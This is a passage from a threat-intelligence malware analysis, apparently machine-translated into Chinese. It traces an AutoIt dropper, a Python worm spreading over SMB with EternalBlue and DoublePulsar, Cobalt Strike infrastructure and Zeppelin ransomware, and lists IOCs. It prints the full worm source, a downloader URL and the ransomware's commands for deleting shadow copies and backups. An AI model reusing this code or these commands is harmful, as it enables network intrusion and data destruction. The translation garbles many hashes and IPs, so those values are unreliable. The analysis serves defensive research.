				FileSetAttrib("C:\ProgramData\WindowsTask\scaner.exe", "+SH")
				Sleep(300)
				Run("C:\Programdata\WindowsTask\scaner.exe -pnaxui")
				Sleep(2000)
				FileDelete("C:\Programdata\WindowsTask\scaner.dat")
				FileDelete("C:\Programdata\WindowsTask\scaner.exe")
				FileSetAttrib("C:\ProgramData\RunDLL\*.*", "+SH")
				FileSetAttrib("C:\ProgramData\RunDLL", "+SH")
			EndIf
			Sleep(2000)
			If NOT ProcessExists("system.exe") Then
				If NOT ProcessExists("Msiexec64.exe") Then
					If FileExists("C:\ProgramData\RunDLL\start.exe") Then
						Run("C:\ProgramData\RunDLL\start.exe")
						ConsoleWrite("Staring Scaner RunDLL.exe" & @CRLF)
					EndIf
				EndIf
			EndIf
		EndIf
```

FTP 服务器与某些 CS 设备在同一范围内:

```
learinmica .com.  600 IN A 31.44.184 .108
```

**scaner . dat—3 f 51 ab d78 e 607 BCD 707 CBD 2 f 4d 90 a3 d 02 D5 d 00 fa 07320 a 88838 c 373239 ee 6 D4 b**

这个文件是一个有密码保护的自解压 rar，密码是 naxui 从上面的脚本中引爆的。

打开文件后，我们只剩下一堆与永恒之蓝和 DoublePulsar 相关的文件，但上面的脚本主要与引爆 start.exe 有关

**start.exe—54081 e 33 BCD 09d 29d 065533 c 230256 e 49 adff 2 edd 48 F5 EB 91 a 2434 c 03 DD 9 ECB 9**

这个文件是一个 SFX RAR，里面有一个 vbs，VBS 文件只是引爆了另一个被解压缩的文件:

```
Set WshShell = CreateObject("WScript.Shell") 
WshShell.Run "cmd.exe /c Rundll.exe", 0, false
```

**rundll.exe—8b 58 e 3a 1 a 6a 11225050 af6c 82 e 92451779 c 0315 a 602d 19 ad 330 e 175 a 7 c 416 bf6**

这是一个经过编译的 python 脚本，我们可以对其进行反编译:

```
import subprocess
import time
import threading
import socket
import sys
import random
import os
try:
    MyIP = socket.gethostbyname_ex(socket.gethostname())[2]
except:
    MyIP = '10.0.0.2'

def EternalBlue(ip):
    path = 'Eternalblue-2.2.0.exe'
    inconfig = ' --inconfig Eternalblue-2.2.0.xml'
    NetworkTimeout = ' --NetworkTimeout 60'
    TargetIp = ' --TargetIp %s' % ip
    TargetPort = ' --TargetPort 445'
    Target = ' --Target WIN72K8R2'
    summ = path + inconfig + NetworkTimeout + TargetIp + TargetPort + Target
    PIPE = subprocess.PIPE
    p = subprocess.Popen(summ, shell=True, stdin=PIPE, stdout=PIPE, stderr=subprocess.STDOUT)
    output = p.communicate()
    output = list(output)
    output = output[0].split('\r\n')
    if output.count('[+] CORE terminated with status code 0x00000000') == 1 and output.count('    [+] Ping returned Target architecture: x64 (64-bit)'):
        x = 'good x64'
        return x
    elif output.count('[+] CORE terminated with status code 0x00000000') == 1 and output.count('    [+] Ping returned Target architecture: x86 (32-bit)'):
        x = 'good x86'
        return x
    else:
        x = 'not good'
        return x

def Pulsar(ip, arch, dll):
    path = 'Doublepulsar-1.3.1.exe'
    inconfig = ' --inconfig Doublepulsar-1.3.1.xml'
    NetworkTimeout = ' --NetworkTimeout 60'
    TargetIp = ' --TargetIp %s' % ip
    TargetPort = ' --TargetPort 445'
    DllPayload = ' --DllPayload %s' % dll
    DllOrdinal = '  --DllOrdinal 1'
    ProcessName = ' --ProcessName lsass.exe'
    Protocol = ' --Protocol SMB'
    Architecture = ' --Architecture %s' % arch
    Function = ' --Fuction RunDll'
    processCommandLine = ' --processCommandLine'
    summ = path + inconfig + NetworkTimeout + TargetIp + TargetPort + Architecture + DllPayload + Protocol + DllOrdinal + Function + ProcessName + processCommandLine
    PIPE = subprocess.PIPE
    p = subprocess.Popen(summ, shell=True, stdin=PIPE, stdout=PIPE, stderr=subprocess.STDOUT)
    output = p.communicate()
    list(output)
    output = output[0].split('\r\n')

def scaner(ip):
    try:
        os.remove('Result.txt')
    except:
        pass

    Result = []
    scan = 'system.exe TCP %s 445 150 /save' % ip
    PIPE = subprocess.PIPE
    p = subprocess.Popen(scan, shell=True, stdin=PIPE, stdout=PIPE, stderr=subprocess.STDOUT)
    output = p.communicate()
    for line in open('Result.txt', 'r').read().split('\n'):
        if line.find('Open') > 1:
            Result.append(line.split(' ')[0])

    print Result
    os.remove('Result.txt')
    return Result

def scaner_local(ip):
    try:
        os.remove('Result.txt')
    except:
        pass

    Result = []
    scan = 'system.exe TCP %s 445 150 /save' % ip
    PIPE = subprocess.PIPE
    p = subprocess.Popen(scan, shell=True, stdin=PIPE, stdout=PIPE, stderr=subprocess.STDOUT)
    output = p.communicate()
    for line in open('Result.txt', 'r').read().split('\n'):
        if line.find('Open') > 1:
            Result.append(line.split(' ')[0])

    for x in MyIP:
        if x in Result:
            Result.remove(x)

    os.remove('Result.txt')
    return Result

def attack(lst):
    status = EternalBlue(lst)
    if status == 'good x64':
        Pulsar(lst, 'x64', 'x64.dll')
        print 'Attack %s good' % lst
    elif status == 'good x86':
        Pulsar(lst, 'x86', 'x86.dll')
        print 'Attack %s good' % lst
    else:
        print 'Attack %s not good!!!' % lst

def attack2(lst):
    status = EternalBlue(lst)
    if status == 'good x64':
        Pulsar(lst, 'x64', '2x64.dll')
        print 'Attack %s good' % lst
    elif status == 'good x86':
        Pulsar(lst, 'x86', '2x86.dll')
        print 'Attack %s good' % lst
    else:
        print 'Attack %s not good!!!' % lst

def new_start():
    print 'STARTED'
    scanlist = []
    lst = []
    for line in open('scan.txt', 'r').read().split('\n'):
        for unit in line.split(' '):
            scanlist.append(unit)

    randomip = random.choice(scanlist)
    lst = scaner(randomip)
    for y in lst:
        thread_ = threading.Thread(target=attack2, args=(y,)).start()

    while threading.active_count() > 2:
        time.sleep(5)

    print 'FINISHED'

def start_local():
    print 'STARTED_local'
    lst = []
    for ip in MyIP:
        lst = scaner_local(ip + '/16')
        for y in lst:
            thread_ = threading.Thread(target=attack, args=(y,)).start()

        while threading.active_count() > 2:
            time.sleep(5)

    print 'FINISHED'

def new_random():
    print 'STARTED'
    randomip = str(random.randint(1, 254)) + '.' + str(random.randint(0, 254)) + '.' + '0.' + '0'
    print 'scan ' + randomip + '/16'
    lst = scaner(randomip + '/16')
    for y in lst:
        thread_ = threading.Thread(target=attack, args=(y,)).start()

    while threading.active_count() > 2:
        time.sleep(5)

    print 'FINISHED'

while True:
    new_start()
    start_local()
```

最终，该脚本使用 DoublePulsar 和永恒蓝来传播 x86.dll、x64.dll、2x86.dll、2x64.dll 文件，这些文件被证明是相当简单的下载程序:

```
User-Agent RookIE/1.0
hxxp://learinmica.com/update/update[.]rar
```

该文件将存储在 ProgramData 目录中，并引导至类似的 Autoit 可执行文件，以便使用 scaner.dat 和 CS stagers，从而引导至更多的 CS 服务器:

```
taskhosta.exe - e2f686f17b73398d949998e46c7fde48d0507b324a811df39cdd91531deb3d89
```

这是一个 CS 阶段，使用不同的水印并从以下位置下载信标:

```
31.44.184 .50/nECf
```

我们之前提到的另一个文件来自 45.142.213[。]167:

```
oxford.exe - 6e4459199d7fbdc4c215e595906e78fdd1c15ad3be6abed6540b80de17b63f3b
```

这是 VegaLocker ransomware 版本的齐柏林飞艇，我们可以快速解码机上的所有字符串:

```
>>> import re
>>> t = re.findall('''\xff\xff\xff\xff.\x00\x00\x00''', data)
>>> len(t)
268
>>> def decode(blah):
...   rc4 = ARC4.new(blah[:0x20])
...   return rc4.decrypt(blah[0x20:])
... 
>>> import struct
>>> for val in t:
...   o = data.find(val)
...   (a,b) = struct.unpack_from('<II', data[o:])
...   blob = data[o+8:o+8+b]
...   try:
...     print(decode(blob))
...   except:
...     pass
...
```

解码字符串的片段:

```
Software\Zeppelin\Process
Software\Zeppelin\Process
Software\Microsoft\Windows\CurrentVersion\Run\
Software\Zeppelin
</div>
NtQuerySystemInformation
NtQuerySystemInformation
</N><D>
1767974731E6E223476E65712463554E87F55542B120AB1CE64651031B43D6AF4DECB1CF8ED6E71FED2376C3169F7A33AC239835D5AE800EFF4A4CEC847D37B1F903497DAB8909226A5FC3284932F26FB4C4BB6716A39011720116B935AA317E123441C0E287BEC5C16CF3522702AB447E1B2D03E0D8607C816023C0890C1C02CE1A366B9CA240F2497E879705AE6097F0A161F64A24217E1F912B1BCEA3BEB54223E0B0661F9BB8355ECF325EF669096F17CC00F2D2E1D2CB581D5A4A4FCB9218E98CF7A041C1B613E641FFBF76008172406C428E8462201FAC0CFCDFF6D63E4FEED77BA40080AFFEDA1267C6819688C4A3CBE52725DB8E68FC998B26B0A5071D
1767974731E6E223476E65712463554E87F55542B120AB1CE64651031B43D6AF4DECB1CF8ED6E71FED2376C3169F7A33AC239835D5AE800EFF4A4CEC847D37B1F903497DAB8909226A5FC3284932F26FB4C4BB6716A39011720116B935AA317E123441C0E287BEC5C16CF3522702AB447E1B2D03E0D8607C816023C0890C1C02CE1A366B9CA240F2497E879705AE6097F0A161F64A24217E1F912B1BCEA3BEB54223E0B0661F9BB8355ECF325EF669096F17CC00F2D2E1D2CB581D5A4A4FCB9218E98CF7A041C1B613E641FFBF76008172406C428E8462201FAC0CFCDFF6D63E4FEED77BA40080AFFEDA1267C6819688C4A3CBE52725DB8E68FC998B26B0A5071D

{15F7DAB8-8C18-A41B-BFCD-C970AE422622}
bcdedit /set {default} bootstatuspolicy ignoreallfailures;bcdedit /set {default} recoveryenabled no;wbadmin delete catalog -quiet;wbadmin delete systemstatebackup;wbadmin delete systemstatebackup -keepversions:0;wbadmin delete backup;wmic shadowcopy delete;vssadmin delete shadows /all /quiet;
</N><D>
boot.ini;bootfont.bin;bootsect.bak;desktop.ini;iconcache.db;ntdetect.com;ntldr;ntuser.dat;ntuser.dat.log;ntuser.ini;thumbs.db;
:\$Windows.~bt\;:\System Volume Information\;:\Windows.old\;:\Windows\;:\intel\;:\nvidia\;:\inetpub\logs\;\All Users\;\AppData\;\Apple Computer\Safari\;\Application Data\;\Boot\;\Google\;\Google\Chrome\;\Mozilla Firefox\;\Mozilla\;\Opera Software\;\Opera\;\Tor Browser\;\Common Files\;\Internet Explorer\;\Windows Defender\;\Windows Mail\;\Windows Media Player\;\Windows Multimedia Platform\;\Windows NT\;\Windows Photo Viewer\;\Windows Portable Devices\;\WindowsPowerShell\;\Windows Photo Viewer\;\Windows Security\;\Embedded Lockdown Manager\;\Windows Journal\;\MSBuild\;\Reference Assemblies\;\Windows Sidebar\;\Windows Defender Advanced Threat Protection\;\Microsoft\;\Package Cache\;\Microsoft Help\;
QueryFullProcessImageNameW
Veeam.Backup.Manager.exe;Veeam.Backup.Agent.ConfigurationService.exe;Veeam.Backup.BrokerService.exe;Veeam.Backup.CatalogDataService.exe;Veeam.Backup.Satellite.exe;Veeam.Backup.Service.exe;veeam.backup.shell.exe;Veeam.Backup.WmiServer.exe;Veeam.Guest.Interaction.Proxy.exe;VeeamDeploymentSvc.exe;VeeamNetworkRedirector.exe;VeeamNFSSvc.exe;agntsvc.exe;agntsvc.exeagntsvc.exe;agntsvc.exeencsvc.exe;agntsvc.exeisqlplussvc.exe;anvir.exe;anvir64.exe;apache.exe;backup.exe;ccleaner.exe;ccleaner64.exe;dbeng50.exe;dbsnmp.exe;encsvc.exe;far.exe;firefoxconfig.exe;infopath.exe;isqlplussvc.exe;kingdee.exe;msaccess.exe;msftesql.exe;mspub.exe;mydesktopqos.exe;mydesktopservice.exe;mysqld-nt.exe;mysqld-opt.exe;mysqld.exe;ncsvc.exe;ocautoupds.exe;ocomm.exe;ocssd.exe;oracle.exe;oracle.exe;procexp.exe;regedit.exe;sqbcoreservice.exe;sql.exe;sqlagent.exe;sqlbrowser.exe;sqlserver.exe;sqlservr.exe;sqlwriter.exe;synctime.exe;taskkill.exe;tasklist.exe;taskmgr.exe;tbirdconfig.exe;tomcat.exe;tomcat6.exe;u8.exe;ufida.exe;visio.exe;xfssvccon.exe;
.bat;.cmd;.com;.cpl;.dll;.msc;.msp;.pif;.scr;.sys;.log;.lnk;.zeppelin;
!!! ALL YOUR FILES ARE ENCRYPTED !!!.TXT
!!! ALL YOUR FILES ARE ENCRYPTED !!!

All your files, documents, photos, databases and other important files are encrypted.
!!! YOUR FILES ARE ENCRYPTED !!!
All your files, documents, photos, databases and other important
files are encrypted.
You are not able to decrypt it by yourself! There is only one method
of recovering files it is purchase an unique private key.

Write to angry_war@protonmail.ch

Your personal ID: <!--ID-->

Attention!
 * Do not rename encrypted files.
 * Do not try to decrypt your data using third party software, it may cause permanent data loss.
```

我们可以继续旋转一些钴罢工 C2 服务器，他们的管理端口是 43890，而不是默认的 50050，证书是静态的:

```
s:C = US, ST = Washington, L = Redmond, O = Microsoft Corporation, OU = Microsoft Corporation, CN = Outlook.live.com
```

几年前，我在一次当地会议上为 [cert 扫描范围](https://github.com/sysopfb/sslscan)编写了一个工具，我们可以在这里使用它来扫描整个范围，寻找这个演员基础设施。

```
4a08189c6f97c3b9a424f1f18c5c4356beaf1b3e
IP: 31.44.184.181 - <Name(C=US,ST=Washington,L=Redmond,O=Microsoft Corporation,OU=Microsoft Corporation,CN=Outlook.live.com)>4a08189c6f97c3b9a424f1f18c5c4356beaf1b3e
IP: 31.44.184.165 - <Name(C=US,ST=Washington,L=Redmond,O=Microsoft Corporation,OU=Microsoft Corporation,CN=Outlook.live.com)>4a08189c6f97c3b9a424f1f18c5c4356beaf1b3e
IP: 31.44.184.84 - <Name(C=US,ST=Washington,L=Redmond,O=Microsoft Corporation,OU=Microsoft Corporation,CN=Outlook.live.com)>4a08189c6f97c3b9a424f1f18c5c4356beaf1b3e
IP: 31.44.184.100 - <Name(C=US,ST=Washington,L=Redmond,O=Microsoft Corporation,OU=Microsoft Corporation,CN=Outlook.live.com)>4a08189c6f97c3b9a424f1f18c5c4356beaf1b3e
IP: 31.44.184.74 - <Name(C=US,ST=Washington,L=Redmond,O=Microsoft Corporation,OU=Microsoft Corporation,CN=Outlook.live.com)>4a08189c6f97c3b9a424f1f18c5c4356beaf1b3e
IP: 31.44.184.82 - <Name(C=US,ST=Washington,L=Redmond,O=Microsoft Corporation,OU=Microsoft Corporation,CN=Outlook.live.com)>4a08189c6f97c3b9a424f1f18c5c4356beaf1b3e
IP: 31.44.184.174 - <Name(C=US,ST=Washington,L=Redmond,O=Microsoft Corporation,OU=Microsoft Corporation,CN=Outlook.live.com)>4a08189c6f97c3b9a424f1f18c5c4356beaf1b3e
IP: 31.44.184.56 - <Name(C=US,ST=Washington,L=Redmond,O=Microsoft Corporation,OU=Microsoft Corporation,CN=Outlook.live.com)>4a08189c6f97c3b9a424f1f18c5c4356beaf1b3e
IP: 31.44.184.73 - <Name(C=US,ST=Washington,L=Redmond,O=Microsoft Corporation,OU=Microsoft Corporation,CN=Outlook.live.com)>4a08189c6f97c3b9a424f1f18c5c4356beaf1b3e
IP: 31.44.184.63 - <Name(C=US,ST=Washington,L=Redmond,O=Microsoft Corporation,OU=Microsoft Corporation,CN=Outlook.live.com)>
```

另一个范围:

```
4a08189c6f97c3b9a424f1f18c5c4356beaf1b3e
IP: 185.153.199.162 - <Name(C=US,ST=Washington,L=Redmond,O=Microsoft Corporation,OU=Microsoft Corporation,CN=Outlook.live.com)>2a332c3a76f2bea5d458f33cf025db656983c72e
IP: 185.153.199.161 - Empty733716db5a44d79a1a2881109f62060079b5b7a0
IP: 185.153.199.167 - Empty21338c5fec99e8df6573b169fbb2f388b84f82ef
IP: 185.153.199.165 - Empty4a08189c6f97c3b9a424f1f18c5c4356beaf1b3e
IP: 185.153.199.163 - <Name(C=US,ST=Washington,L=Redmond,O=Microsoft Corporation,OU=Microsoft Corporation,CN=Outlook.live.com)>4a08189c6f97c3b9a424f1f18c5c4356beaf1b3e
IP: 185.153.199.166 - <Name(C=US,ST=Washington,L=Redmond,O=Microsoft Corporation,OU=Microsoft Corporation,CN=Outlook.live.com)>4a08189c6f97c3b9a424f1f18c5c4356beaf1b3e
IP: 185.153.199.164 - <Name(C=US,ST=Washington,L=Redmond,O=Microsoft Corporation,OU=Microsoft Corporation,CN=Outlook.live.com)>
```

“空的”是默认的 CS 管理员认证:

```
subject=C = Earth, ST = Cyberspace, L = Somewhere, O = cobaltstrike, OU = AdvancedPenTesting, CN = Major Cobalt Strike
```

在其中一台 CS 服务器' 31.44.184.63 '上进行更多的旋转操作，会在 VirusTotal 上找到一个与之相关的有趣文件。

```
fe7d4cb5112f5ae0a3d0f9593e1954c60f771f14cc161acd9bdf2f91f2d3267a
```

该文件是[安全发送垃圾邮件机器人](https://lokalhost.pl/txt/peering.into.spam.botnets.VirusBulletin2017.pdf)的打包样本。

```
{'C2': '31.44.184.63:50001/50002', 'CONF': '31.44.184.63:50001/50002;Enterprise Mailing Service'}
```

发送安全垃圾邮件发送者也是此[威胁组](https://lokalhost.pl/txt/peering.into.spam.botnets.VirusBulletin2017.pdf)使用的已知实用程序。

# IOCs

CS 相关哈希:

```
655346f41c456cefd9d40c1b9484f1c0dfa36d180c72dd2d1ada26661be1ca6d
2d038b20eaf05bb8d673542f1dbab6a376abb05bf10d38b04f163cfd6c2a7252
e2f686f17b73398d949998e46c7fde48d0507b324a811df39cdd91531deb3d89
d08131d236658401c8de489596ee83992058f05176cbd8b72add89fcea57e37c
bd3c278309e4fe19f7b424ee0b56a1a2c0bbae3a59882d5b6f171d3ca89f728b
```

IPs:

```
31.44.184.181
31.44.184.165
31.44.184.84
31.44.184.100
31.44.184.74
31.44.184.82
31.44.184.174
31.44.184.56
31.44.184.73
31.44.184.63
185.153.199.162
185.153.199.161
185.153.199.167
185.153.199.165
185.153.199.163
185.153.199.166
185.153.199.164
```

# 参考

[https://vixra.org/abs/1902.0257](https://vixra.org/abs/1902.0257)
[https://www . blue liv . com/downloads/network-insights-in-vawtrak-v2 . pdf](https://www.blueliv.com/downloads/network-insights-into-vawtrak-v2.pdf)
[https://www . proofpoint . com/sites/default/files/pfpt-us-tr-q117-wealth-report . pdf](https://www.proofpoint.com/sites/default/files/pfpt-us-tr-q117-threat-report.pdf)

[https://isc . sans . edu/forums/diary/hanci tor+infection+with+Pony+Evil+Pony+Ursnif+and+Cobalt+Strike/25532/](https://isc.sans.edu/forums/diary/Hancitor+infection+with+Pony+Evil+Pony+Ursnif+and+Cobalt+Strike/25532/)
[https://app . any . run/tasks/5d 21 ab 13-70fb-4c cf-8a 80-545d 19 c 7d 20 f/](https://app.any.run/tasks/5d21ab13-70fb-4ccf-8a80-545d19c7d20f/)
[https://www . malware-traffic-analysis . net/2020/10/20](https://www.malware-traffic-analysis.net/2020/10/20/index.html)

[https://lokalhost . pl/txt/peering . into . spam . botnets . virus bulletin 2017 . pdf](https://lokalhost.pl/txt/peering.into.spam.botnets.VirusBulletin2017.pdf)